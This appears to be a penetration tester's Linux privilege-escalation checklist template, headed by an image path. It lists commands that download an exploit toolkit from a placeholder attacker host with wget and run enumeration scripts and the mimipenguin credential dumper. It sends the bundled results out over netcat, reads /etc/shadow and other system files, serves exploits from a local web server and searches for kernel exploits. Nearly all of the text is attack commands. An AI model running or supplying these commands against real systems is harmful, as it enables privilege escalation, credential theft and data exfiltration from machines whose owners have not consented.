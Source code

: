 ```

# Download all files
wget http://MYIPADDRESS:8080/ -r; mv MYIPADDRESS:8080 exploits; cd exploits; rm index.html; chmod 700 LinEnum.sh linuxprivchecker.py unix-privesc-check mimipenguin.sh mimipenguin.py

mkdir checks; ./LinEnum.sh -t -k password > checks/linenum && python linuxprivchecker.py extended > checks/linuxpriv && ./unix-privesc-check standard > checks/unixpriv &

#Uploads Files
Host:
cd /root/Dropbox/Engagments/INSERTIPADDRESS/privesc; nc -lvnp 80 > checks.tar.gz

Target:
tar -zcvf checks.tar.gz checks ;nc -nv MYIPADDRESS 80 < checks.tar.gz

```


### Basic info

```
uname -a
env
id
cat /proc/version
cat /etc/issue
cat /etc/passwd
cat /etc/group
cat /etc/shadow
cat /etc/hosts
```

- OS:
- Version:
- Kernel version:
- Architecture:
- Current user:

**Devtools:**
- GCC:
- NC:
- WGET:

### Kernel exploits

```
cd /root/Dropbox/Engagements/INSERTIPADDRESS/exploits && python -m SimpleHTTPServer 80
wget http://MYIPADDRESS/<name>

site:exploit-db.com kernel version

perl /root/Dropbox/Scripts/Post_Linux/linux-exploit-suggester-2/linux-exploit-suggester-2.pl -k 2.6
python /root/Dropbox/Scripts/Post_Linux/AutoLocalPrivilegeEscalation/auto_searchsploit.py 2.6
```

